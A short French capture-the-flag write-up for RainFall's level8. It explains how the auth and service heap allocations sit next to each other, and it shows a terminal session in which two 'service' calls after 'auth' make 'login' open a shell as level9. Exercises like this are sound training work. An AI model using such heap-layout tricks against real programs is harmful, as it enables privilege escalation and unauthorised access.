 # Solution

## Explication du code

On peu voir que si la 8eme case memoire apres le debut de auth serait initialiser un shell s'ouvrirait en donnant comment entrée "login"
a notre programe.

On peu apercevoir que globalService et globalAuth sont malloc a la suite sans jamais etre free si l'on apel pas reset.
On peu tester si lors de l'allocation de memoire les adresse se suive :

level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
auth 
0x804a018, (nil) 
service
0x804a018, 0x804a028 
service
0x804a018, 0x804a038

On remarque que oui cela ce suit avec un decalage de 16octet avec le dernier appel de service ou auth,
donc il suffit de cree un decalage de au moin 32 octet avec service apres un appel de auth, puis utiliser login :

level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9


